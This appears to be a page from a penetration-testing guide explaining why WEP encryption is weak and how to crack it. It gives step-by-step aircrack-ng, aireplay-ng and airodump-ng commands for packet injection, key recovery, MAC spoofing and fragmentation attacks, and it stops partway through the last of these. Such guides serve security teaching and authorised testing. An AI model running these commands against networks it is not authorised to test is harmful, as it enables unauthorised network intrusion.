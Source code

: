 # Wired Equivalent Privacy \(WEP\) Attacks

The security issues with WEP stem from US export restrictions on cryptographic technologies in the '90s, which dictated that encryption keys could be no longer than 64-bits. Of this 64-bits the original WEP standard uses 24 bits for the Initialisation Vector \(IV\) leaving 40-bits for the key itself.Once the restrictions were lifted, the total key length was lengthened to 128-bits, but the protocol still used a 24-bit IV. For more information about the WEP algorithm itself, see [Appendix A.](/appendices/appendix-a-wireless-network-encryption-protocols.md)

### Cracking WEP with Connected Clients

A WEP encrypted AP with connected clients will natively have traffic which can be sniffed to acquire the information needed to crack the WEP key. One method for achieving this is as follows:

1. Gather information about the target AP using `airodump-ng` \(alternatively, use `kismet`\). This includes: SSID, BSSID, channel and the MAC address of an associated client.
   1. `airodump-ng wlan0mon`
2. Set a wireless network interface to monitoring mode so traffic can be sniffed.
   1. `airmon-ng start wlan0 <channel>`
3. Begin sniffing traffic using airodump-ng and write the findings fo file. \(Use the findings of 2 as parameters\)
`airodump-ng --ivs --channel <channel> --bssid <AP-BSSID> --write <filename> wlan0mon`

4. Rather than waiting for the client to sens packets to the AP, craft packets with `aireplay-ng` posing as the client. Capture at least 50,000 packets before proceeding.

   1. `aireplay-ng -3 -h <client-MAC> -b <AP BSSID> wlan0mon`

5. Run the output file through aircrack-ng to retrieve the WEP key.

   1. `aircrack-ng <filename>`

6. Verify the key is correct by authenticating with the AP using the key.

   1. Spoof the client's MAC.

      1. `ifconfig wlan0 down`

      2. `ifconfig wlan0 hw ether <client-MAC>`

      3. `ifconfig wlan0 up`

   2. Attempt to associate with the AP.

      1. `iwconfig wlan0 essid <ESSID> key <key>`

      2. `iwconfig channel auto`

   3. verify that you are connected.

      1. `iwconfig wlan0`

### Cracking WEP with no Connected Clients

Rather than attempting to retrieve the WEP key itself, attacks on WEP APs with no connected clients intend to obtain the Pseudo Random Generation Algorithm \(PRGA\) file from the AP. This file can be used to create new packets that can be used for injection.

1. Gather information about the target AP using `airodump-ng` \(alternatively, use `kismet`\). This includes: SSID, BSSID, channel and the MAC address of an associated client.
   1. `airodump-ng wlan0mon`
2. Set a wireless network interface to monitoring mode so traffic can be sniffed.
   1. `airmon-ng start wlan0mon`
3. Begin sniffing traffic using airodump-ng and write the findings fo file. \(Use the findings of 2 as parameters\)
   1. `a      irodump-ng --channel <channel> --bssid <AP-BSSID> --write <filename> wlan0mon`
4. Gather the PRGA using either the Fragmentation attack or KoreKchopchop attack. Thry the attacks in that order, and if neither are successful, wait until a client has associated and perform the "cracking WEP with Connected Client" attack outlined above.
1. Fragmentation attack
   1. In a separate shell, start a fragmentation attack
      1. `aireplay-ng -5 -b <BSSID> -h <your-MAC> wlan0mon`
   2. In a separate shell, fake an association request to the AP
      1. `aireplay-ng -1 0 -o 1 -e <ESSID> -h <your-MAC> -a <BSSID> wlan0mon`

   
   